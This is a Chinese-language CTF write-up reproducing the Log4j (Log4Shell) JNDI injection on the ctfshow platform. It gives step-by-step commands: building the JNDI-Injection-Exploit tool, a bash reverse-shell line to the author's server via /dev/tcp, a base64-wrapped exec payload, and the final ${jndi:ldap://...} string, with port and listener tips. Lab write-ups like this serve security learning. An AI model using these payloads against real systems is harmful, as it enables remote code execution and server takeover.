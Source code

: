 ## 写在前面

log4j的风波也过去一段时间了，最近入手了一台vps，正好借ctfshow平台复现一下，过程也算较为曲折，故在此做总结。

——KonDream 2022年1月20日16:22:52

## 前期准备

### 1. 一台vps

目的是拥有一个公网ip

### 2. 环境搭建

工具地址：https://github.com/welk1n/JNDI-Injection-Exploit

(1) 将工具clone到服务器上，不要在本地跑，然后编译生成jar文件

```bash
$ git clone https://github.com/welk1n/JNDI-Injection-Exploit.git
$ cd JNDI-Injection-Exploit
$ mvn clean package -DskipTests
```

需要提前配置好java和maven环境，这里自行百度，不多赘述，编译过程较长，耐心等待

(2) 构建payload

首先准备好你要弹shell的命令，比如``bash -i >& /dev/tcp/服务器ip/服务器端口 0>&1``

**记住这个端口，后面要监听这个端口**

然后到这里进行生成：https://www.jackson-t.ca/runtime-exec-payloads.html

![image-20220120163149631](image/Untitled/image-20220120163149631.png)

## 反弹shell

(1) 在刚刚编译好的目录下进入target目录，也就是 JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar 所在目录

执行命令：

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,xxxxxxxx}|{base64,-d}|{bash,-i}" -A "服务器ip"
```

第一个引号内是上面生成的payload，第二个引号内是你的服务器ip

执行结果如图

![image-20220120163640858](image/Untitled/image-20220120163640858.png)

**注意要在服务器端放行8180，1099，1389端口，以及你弹shell时要监听的端口，我之前因为这个好多次都无法成功**

![image-20220120163907898](image/Untitled/image-20220120163907898.png)

(2)新开一个终端，监听你构造payload时候设置的端口，注意此端口也要放行

![image-20220120164029293](image/Untitled/image-20220120164029293.png)

(3)上面5个粉紫色的payload中，我选的是最后一个，因为我的JDK也是1.7，其他payload我试了一下没有成功，具体还要看个人的配置

最终payload:``${jndi:ldap://ip:port/xxx}``

![image-20220120164247819](image/Untitled/image-20220120164247819.png)

插入，等待服务端响应

![image-20220120164337027](image/Untitled/image-20220120164337027.png)

![image-20220120164432517](image/Untitled/image-20220120164432517.png)

成功弹到shell

![image-20220120164454940](image/Untitled/image-20220120164454940.png)

最终拿到flag

## 写在最后

其实想想整个过程并不算难，有经验的老手一看就会，但是对于我这样的菜鸡，第一次还有很多大意的地方，比如想当然的以为某个端口它自己启用了就不需要放行了，后来才明白还需要在公网上能访问到才可以，这次学习到了很多，感谢ctfshow提供的平台。

——KonDream 2022年1月20日16:48:14
